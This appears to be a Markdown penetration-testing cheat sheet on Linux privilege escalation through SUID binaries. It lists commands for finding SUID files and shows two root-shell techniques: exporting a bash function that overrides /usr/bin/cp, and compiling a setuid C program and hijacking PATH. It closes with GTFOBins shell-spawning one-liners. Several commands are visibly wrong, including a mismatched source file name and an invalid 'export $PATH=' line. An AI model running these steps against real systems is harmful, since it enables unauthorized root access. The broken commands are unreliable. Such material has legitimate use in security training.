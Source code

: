 ## SUID

### How to Find SUIDs?

To find SUID that may be useful then execute the following commands:

```
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

For example, an output could be:

```
bash-4.2$ find / -user root -perm -4000 -print 2> /dev/null
find / -user root -perm -4000 -print 2> /dev/null
/usr/bin/mount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/su
/usr/bin/update_my_docs
[... reduced ...]
````

If we'll check the /usr/bin/update_my_docs we'll see it's running under root ownership:

```
bash-4.2$: ls /usr/bin/update_my_docs -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/update_my_docs
```

### Exploiting SUID

Exploiting SUIDs binaries is very simple and there are two diffrent techniques to use it.
Let's say we'd like to check what function our program use, so we'll use strings utility as following:

```
bash-4.2:/usr/bin$ strings update_my_docs
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
puts
system
__libc_start_main
GLIBC_2.0
PTRh0
[^_]
cp
```

In this example, we quickly identify the cp (copy) binary which executed as system (see the function name inside right?)

#### Bash Function Manipulation

In this technique, we'll export a bash function matching one of the programs called by the program (i.e., "/usr/bin/cp"):

```
function /usr/bin/cp(){ /bin/sh; }
export -f /usr/bin/cp
```

Then we'll execute our program /usr/bin/update_my_docs to get our shell.

#### Create Binary SUID

In this method, we'll create a SUID bianry as following:

```
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > /tmp/setuid.c
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
mv setuid cp # change name to the expected binary in our example
```

Place it in our $PATH using the command:

```
export $PATH=/tmp:$PATH
```

Then execute our binary to get shell as root.

#### GTFOBins 

GTFOBins is a list of UNIX binaries that can be exploited to bypass local security restrictions. Those binaries can be abused to escape restricted shells, spawn remote shells, elevate privlieges 
and more. 

A few examples: 

``` 
awk 'BEGIN {system("/bin/sh")}'
sudo find . -exec /bin/sh \; -quit
```

For more acurated list: https://gtfobins.github.io/gtfobins/
